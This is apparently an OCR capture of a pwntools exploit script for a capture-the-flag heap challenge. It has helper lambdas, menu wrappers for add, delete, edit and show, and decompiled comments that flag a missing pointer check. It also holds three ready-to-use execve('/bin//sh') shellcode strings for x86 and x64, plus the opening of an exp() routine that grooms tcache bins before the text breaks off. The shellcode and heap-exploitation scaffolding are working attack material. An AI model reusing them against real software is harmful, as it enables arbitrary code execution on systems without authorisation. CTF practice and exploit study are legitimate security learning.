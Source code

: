 ```
r       = lambda numb=4096          :p.recv(numb)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
it      = lambda                    :p.interactive()
uu32    = lambda data   :u32(data.ljust(4, '\0'))
uu64    = lambda data   :u64(data.ljust(8, '\0'))
bp      = lambda bkp                :pdbg.bp(bkp)
li      = lambda str1,data1         :log.success(str1+'========&gt;'+hex(data1))


def dbgc(addr):
    gdb.attach(p,"b*" + hex(addr) +"\n c")

def lg(s,addr):
    print('\033[1;31;40m%20s--&gt;0x%x\033[0m'%(s,addr))

sh_x86_18="\x6a\x0b\x58\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x86_20="\x31\xc9\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x64_21="\xf7\xe6\x50\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x48\x89\xe7\xb0\x3b\x0f\x05"
#https://www.exploit-db.com/shellcodes
#-----------------------------------------------------------------------------------------
def choice(idx):
    sla("&gt; ",str(idx))

def add(sz):
    choice(1)
    sla("&gt; ",sz)
      # qword_4380[v4] = malloc(v3);
      # dword_4040[v4] = v3;
      # dword_41E0[v4] = 0;
    # sla('Content:',con)
def delete(idx):#no pointer check
    choice(2)
    sla("&gt; ",idx)

    # free((void *)qword_4380[v2]);
    # qword_4380[v2] = 0LL;
    # dword_4040[v2] = 0;
    # dword_41E0[v2] = 0;

def edit(idx,con):
    choice(3)
    sla("&gt; ",idx)
    # sla('update?',addr)
    sa("&gt; ",con)
    # *(_BYTE *)(qword_4380[v2] + v3) = 0;
    # dword_41E0[v2] = 1;


def show(idx):
    choice(4)
    sla("&gt; ",idx)
# v2 &lt;= 0x63 &amp;&amp; dword_41E0[v2] == 1 &amp;&amp; qword_4380[v2]

def claim(sz):
    for i in range(7):
        add(sz)


def exp():
    claim(0x88)# 0-6
    claim(0x98)# 7-13
    claim(0xa8)# 14-20
    claim(0xb8)# 21-27
```
